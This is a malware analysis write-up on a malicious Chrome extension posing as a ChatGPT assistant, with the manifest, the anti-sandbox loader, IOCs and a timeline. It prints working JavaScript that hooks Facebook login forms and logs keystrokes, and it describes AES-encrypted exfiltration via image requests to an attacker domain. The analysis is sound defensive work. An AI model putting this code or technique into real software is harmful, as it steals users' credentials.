




### <span class="hl">TL;DR</span>

I analyzed a malicious Chrome extension posing as a ChatGPT assistant. The background loader uses basic anti analysis checks to avoid sandboxes before injecting the main payload `core/app.js` into all web pages. The core script specifically targets `www.facebook.com`, hooking form submissions to steal credentials and capturing keystrokes. All stolen data is AES encrypted with a hardcoded key and exfiltrated to `https://Mo.Elshaheedy.com` via image GET requests.

### <span style="color:red">Extension structure</span>

Before digging into the specific malware, it helps to understand the standard components of a Chrome extension. 

1. **Manifest.json:** The core configuration file, specifying metadata, permissions, and behavior. Key fields to inspect include permissions (e.g., access to cookies, tabs, or external URLs), host permissions defining interaction with specific domains, and content scripts or web accessible resources indicating injected functionality.
2. **Background Scripts:** Persistent scripts managing event handling and browser monitoring. Often exploited for tracking user activity or sending data to remote servers.
3. **Content Scripts:** Injected into web pages to interact with the DOM. A common vector for data theft or page manipulation.
4. **Popup Scripts:** Handle the extension's user interface, which may conceal malicious actions or mislead users.
5. **Web-Accessible Resources:** Files accessible by web pages, potentially used to deliver malicious payloads or expose sensitive data.
6. **External Resources:** URLs or scripts loaded externally, often linked to malicious domains or obfuscated content.
### <span style="color:red">Initial Triage</span>

I started by looking at the `manifest.json` file to see how this specific extension is configured. It calls itself "ChatGPT" and claims to be an AI powered assistant, but the configuration is highly suspicious.



Breaking down the manifest reveals its true capabilities:

* **Permissions:** Broad access to all web pages (`http://*/*` and `https://*/*`), browser tabs, and `cookies`. Privileges for `webRequest` and `webRequestBlocking` enable interception and modification of network traffic, which could redirect users or inject malicious scripts. The `storage` permission allows saving potentially stolen data locally.
* **Background Script:** The persistent script (`system/loader.js`) runs continuously, allowing real time monitoring, data exfiltration, and possible communication with a Command and Control (C2) server.
* **Content Scripts:** The injected script (`core/app.js`) runs on all pages (`<all_urls>`), interacting with the DOM to read sensitive user input, manipulate content, and potentially log keystrokes or inject phishing forms.
* **Browser Action:** A popup UI (`assets/ui.html`) provides a seemingly legitimate interface, potentially hiding malicious functionality or links.

### <span style="color:red">Anti Analysis and Loader</span>

I checked out `system/loader.js` next to see how it bootstraps the execution.



There's a quick anti sandbox check right at the start. It checks if `navigator.plugins.length` is 0 or if the user agent contains `HeadlessChrome`. Automated analysis environments and headless browsers typically don't have plugins installed, so if this triggers, the script throws an alert and disables itself by returning false on messages. If the check passes, it dynamically creates a script tag to load the main payload, `core/app.js`.

### <span style="color:red">Targeting and Keylogging</span>

I grabbed the main logic from `app.js` to see what it actually does once injected into a page.

```javascript
    const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
    if (targets.indexOf(window.location.hostname) !== -1) {
        document.addEventListener('submit', function(event) {
            let form = event.target;
            let formData = new FormData(form);
            let username = formData.get('username') || formData.get('email');
            let password = formData.get('password');

            if (username && password) {
                exfiltrateCredentials(username, password);
            }
        });

        document.addEventListener('keydown', function(event) {
            var key = event.key;
            exfiltrateData('keystroke', key);
        });
    }
```

The script defines a target array with a base64 encoded string `d3d3LmZhY2Vib29rLmNvbQ==`. Decoding this reveals `www.facebook.com`. If the victim is on Facebook, it attaches an event listener to any form submissions, specifically looking for `username` or `email` along with `password` fields. If it finds them, it passes them to an exfiltration function. It also attaches a global `keydown` listener, effectively acting as a keylogger for anything typed on the site.

### <span style="color:red">Encryption and Exfiltration</span>

I looked at the rest of `app.js` to understand how `exfiltrateCredentials` and `exfiltrateData` process the stolen information.



The script packs the stolen data along with the hostname into a JSON payload. It passes this to `encryptPayload`, which uses CryptoJS to AES encrypt the data. The key is hardcoded as `SuperSecretKey123`, and the Initialization Vector is randomly generated. It concatenates the IV and ciphertext, base64 encodes it, and hands it off to `sendToServer`.

To actually get the data out, `sendToServer` uses pixel tracking. It creates a new `Image` object and sets the source to `https://Mo.Elshaheedy.com/collect?data=` appended with the URL encoded encrypted payload. Appending the image to the document body forces the browser to make a GET request to the attacker's C2. This is a common trick to bypass CORS restrictions and silently exfiltrate data without triggering obvious XHR or Fetch alerts in the network tab.

### <span class="hl">IOCs</span>

| Value | Description |
|---|---|
| `https://Mo.Elshaheedy.com/collect` | Exfiltration C2 endpoint |
| `SuperSecretKey123` | Hardcoded AES encryption key |
| `d3d3LmZhY2Vib29rLmNvbQ==` | Base64 encoded target (www.facebook.com) |
| `system/loader.js` | Extension background loader script |
| `core/app.js` | Extension main payload script |

### <span class="hl">Attack Timeline</span>


%%{init: {'theme': 'base', 'themeVariables': { 'background': '#ffffff', 'mainBkg': '#ffffff', 'primaryTextColor': '#000000', 'lineColor': '#333333', 'clusterBkg': '#ffffff', 'clusterBorder': '#333333'}}}%%
graph TD
    classDef default fill:#f9f9f9,stroke:#333,stroke-width:1px,color:#000;
    classDef access fill:#e1f5fe,stroke:#0277bd,stroke-width:2px,color:#000;
    classDef exec fill:#ffebee,stroke:#c62828,stroke-width:2px,color:#000;
    classDef exfil fill:#fce4ec,stroke:#880e4f,stroke-width:2px,color:#000;
    classDef mal fill:#fff3e0,stroke:#e65100,stroke-width:2px,color:#000;

    A([Victim Browser]):::default --> B[loader.js executes<br/>Checks for virtual environment]:::exec
    B --> C[app.js injected<br/>Targets www.facebook.com]:::mal
    C --> D[Hooks forms and keystrokes<br/>Captures credentials]:::access
    D --> E[AES Encryption<br/>Hardcoded key]:::exec
    E --> F[GET Request via Image<br/>Mo.Elshaheedy.com]:::exfil
